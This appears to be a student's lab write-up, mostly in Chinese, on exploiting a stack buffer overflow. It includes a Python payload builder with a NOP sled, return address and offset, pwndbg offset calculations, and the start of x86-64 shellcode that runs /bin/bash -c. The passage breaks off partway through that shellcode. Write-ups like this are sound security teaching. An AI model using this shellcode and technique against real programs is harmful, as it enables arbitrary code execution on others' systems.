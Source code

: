 ```python

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00007fffffffe3c0     # Change this number 
offset = 216              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

![image-20251003223557725](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246533.png)

**其中，ret的值等于buf的起始地址，offset等于偏移量+8（8 = rbp本身的长度）**

效果：

![image-20251003224322937](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246534.png)

# Task5

由输出结果可知，该程序中缓冲区长度很短：有96字节，但源程序提供的shellcode超过了这个长度

![image-20251003224536579](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246535.png)

**注：pwntools生成的shellcode长度比较短，上述缓冲区大小其实是足够使用的**

虽然buf函数的栈帧无法放下shellcode，但我们输入的shellcode原始版本是是在dummy_function()中的，所以我们可以通过gdb调试，找出两个栈帧之间的偏移量，让程序流直接跳转到dummy_function()中的shellcode中即可。

**以下使用pwndbg调试**

![image-20251003233412470](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246536.png)

**此时可以看到dummy函数中输入的shellcode位于d460处，bof函数的rbp指向cfc0，可以计算出d460-cfc0=1184，故应覆盖的返回地址=rbp + 1184**

payload结构 = （96+8）个NOP + shellcode地址 + shellcode + 剩余剩余NOP.

攻击代码：

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
```